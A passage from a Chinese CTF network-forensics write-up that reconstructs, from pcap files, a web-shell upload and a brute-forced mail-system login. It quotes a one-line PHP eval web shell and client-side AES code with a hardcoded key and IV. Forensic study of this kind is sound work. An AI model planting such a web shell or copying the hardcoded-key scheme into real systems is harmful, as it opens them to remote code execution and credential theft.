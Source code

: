 那么接下来的`733794`序号分组，`"Tcp Dup ACK 733789#1"`，这就代表着，继`733789`分组序列号后，提示重新传输因某些原因导致的丢包数据。于是，`733801`序号分组，开始重新传输这段数据。当然，我们可以通过每个分组后面的`Seq`值，验证是否是重传包。

比如：`733794`序号分组，此时的`Seq`值为`1`，Ack值为`3606`（与`733789`序列号相当）；`733801`序号分组，此时的`Seq`值为`3606`，`Ack`值为`1`，`len`值为`1460`；`733802`序号分组，此时的`Seq`值为`1`，`Ack`值为`5066`（`733805`序号分组`Seq`和`Ack`值刚好与此相反）；通过验算，`3606+1460=5066`，至此，完全符合重传后每个包的`Seq`、`Ack`对应值。这样，我们成功了解决的了这题的疑问，上传的是文本内容为`&lt;?php [@eval](https://github.com/eval)($_POST[1234]);?&gt;`的`1.php`文件。

<a name="%E7%96%AF%E7%8B%82%E8%B8%A9%E5%9D%91%E2%80%94%E7%A4%BE%E5%B7%A5%EF%BC%9F%E8%BF%98%E6%98%AF%E6%BA%AF%E6%BA%90%EF%BC%9F"></a>**疯狂踩坑—社工？还是溯源？**

> 10、黑客使用了什么账号登陆了mail系统（形式: username/password）

此题说来有趣，此题答案跟原关卡`3`答案相同，说解法是社工（我想跟大佬们学下怎么社工），但是对比了下，两个关卡中所用到的数据包给的源服务器`ip`并不一样。当然，管他白猫黑猫，抓到老鼠就是好猫，比赛时能做出来的确厉害。比赛完后的题目说了“利用破解的密码登录了`mail`系统”，好吧，这个我也勉强能够接受。以下的内容是根据请教**三斤鱼**大佬，赛后复现出来的，在此再次谢过。

这题需要看`mailtwo.pcap`和`mailtwo1.pcap`两个数据包。

首先在`mailtwo.pcap`中过滤`http`，分组序号`3`的`Cookie`中就发现 `login_name=wenwenni`字段，并且是`action=logout`。[![](https://jianghuxia.github.io/2018/08/31/%E4%B8%80%E6%AC%A1%E7%BD%91%E7%BB%9C%E6%B5%81%E9%87%8F%E5%88%86%E6%9E%90%E5%BC%95%E8%B5%B7%E7%9A%84%E5%88%86%E6%9E%90/1535267557510.png)](https://jianghuxia.github.io/2018/08/31/%E4%B8%80%E6%AC%A1%E7%BD%91%E7%BB%9C%E6%B5%81%E9%87%8F%E5%88%86%E6%9E%90%E5%BC%95%E8%B5%B7%E7%9A%84%E5%88%86%E6%9E%90/1535267557510.png)

继续观察数据包，发现分组序号`28`的`Get`登录请求，再看看分组序号`35`的响应，猜测系统是通过验证cookies信息允许其免密登录，并在其中发现了输入密码后的加密函数：

[![](https://jianghuxia.github.io/2018/08/31/%E4%B8%80%E6%AC%A1%E7%BD%91%E7%BB%9C%E6%B5%81%E9%87%8F%E5%88%86%E6%9E%90%E5%BC%95%E8%B5%B7%E7%9A%84%E5%88%86%E6%9E%90/1535268095509.png)](https://jianghuxia.github.io/2018/08/31/%E4%B8%80%E6%AC%A1%E7%BD%91%E7%BB%9C%E6%B5%81%E9%87%8F%E5%88%86%E6%9E%90%E5%BC%95%E8%B5%B7%E7%9A%84%E5%88%86%E6%9E%90/1535268095509.png)

取出来发现是`AES`的`CBC`加密，填充格式为`ZeroPadding`，密钥为字符串`1234567812345678`的`hash`值，偏移量为`1234567812345678`

```
var key_hash = CryptoJS.MD5('1234567812345678');
var key = CryptoJS.enc.Utf8.parse(key_hash);
var iv  = CryptoJS.enc.Utf8.parse('1234567812345678');
 form.password.value = CryptoJS.AES.encrypt(form.password.value, key, `{` iv: iv,mode:CryptoJS.mode.CBC,padding:CryptoJS.pad.ZeroPadding`}`);
```

在下一分组序号`42`请求对应的分组序号`45`返回的响应报文中出现``{`"success":true`}``，表示登陆成功。

[![](https://jianghuxia.github.io/2018/08/31/%E4%B8%80%E6%AC%A1%E7%BD%91%E7%BB%9C%E6%B5%81%E9%87%8F%E5%88%86%E6%9E%90%E5%BC%95%E8%B5%B7%E7%9A%84%E5%88%86%E6%9E%90/1535268433463.png)](https://jianghuxia.github.io/2018/08/31/%E4%B8%80%E6%AC%A1%E7%BD%91%E7%BB%9C%E6%B5%81%E9%87%8F%E5%88%86%E6%9E%90%E5%BC%95%E8%B5%B7%E7%9A%84%E5%88%86%E6%9E%90/1535268433463.png)

既然如此，我们使用`(http contains "`{`"success":true`}`" or http.request.method=="POST") and ip.addr==192.168.94.59`过滤一下，显示出`post`请求及成功的返回结果，浏览一下发现是在爆破，并且到`mailtwo.pcap`的最后也未爆破成功。相同的过滤条件上在`mailtwo1.pcap`上试试，发现几条数据，从后往前看，发现分组序号`18152`是登陆成功的返回结果，那对应的分组序号`17126`则就是正确的加密后的密码。这里可能会有疑问，黑客不是能成功登录`wenwenni`用户嘛，为啥还要爆破`admin`用户？(⊙o⊙)…，说个实在话，那个时候我也有这个疑问，不过后面想想，咱们自己渗透的时候不也是习惯先注册一个账号登录玩玩嘛？

[![](https://jianghuxia.github.io/2018/08/31/%E4%B8%80%E6%AC%A1%E7%BD%91%E7%BB%9C%E6%B5%81%E9%87%8F%E5%88%86%E6%9E%90%E5%BC%95%E8%B5%B7%E7%9A%84%E5%88%86%E6%9E%90/1535269130976.png)](https://jianghuxia.github.io/2018/08/31/%E4%B8%80%E6%AC%A1%E7%BD%91%E7%BB%9C%E6%B5%81%E9%87%8F%E5%88%86%E6%9E%90%E5%BC%95%E8%B5%B7%E7%9A%84%E5%88%86%E6%9E%90/1535269130976.png)
